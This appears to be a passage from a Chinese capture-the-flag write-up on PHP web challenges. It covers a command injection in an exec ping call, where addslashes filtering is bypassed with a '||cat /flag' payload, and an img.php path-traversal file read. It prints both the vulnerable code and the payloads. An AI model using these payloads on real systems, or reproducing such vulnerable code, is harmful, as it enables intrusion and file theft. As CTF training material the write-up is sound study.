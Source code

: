 #### 命令注入

我们可以看到D盾还报了一个exec后门

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900438813-af35f075-34d2-4f6b-aea1-9251f7cff0d3.png)

直接把$host双引号里带入

然后看一下$host是怎么来的

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900438987-cbb07a7a-cc9e-479e-9b23-8e22c3771974.png)

然后看数据是如何放入数据库的

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439120-7f43fb2b-efc3-48b9-b88d-043a5d0e3a61.png)

在收到`$_POST['host']`后程序还经过了一层addslashes操作，过滤其中的单双引号还有斜杠

但是实际上在执行的`$r = exec("ping -c 1 $host");`这一句中并不需要引号逃逸，所以他的过滤操作并没有什么卵用。

因为exec是没有回显的，所以构造以下payload

```
||cat /flag > /ver/www/html/1.txt
```

把flag输出到网站根目录下

好像是需要登录，具体我也忘了

#### 任意文件读取

img.php

```
<?php
$file = $_GET['img'];
$img = file_get_contents('images/icon/'.$file);
//使用图片头输出浏览器
header("Content-Type: image/jpeg;text/html; charset=utf-8");
echo $img;
exit;
```

payload:`/img.php?img=../../../../../../../flag`

#### 反序列化

同web1，只不过不需要x参数了

### WEB3

能利用起来的好像就这一个洞，当时也没来得及看

#### 命令执行

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439215-0edfba07-9f30-45c3-ac12-a1dd29f04336.png)

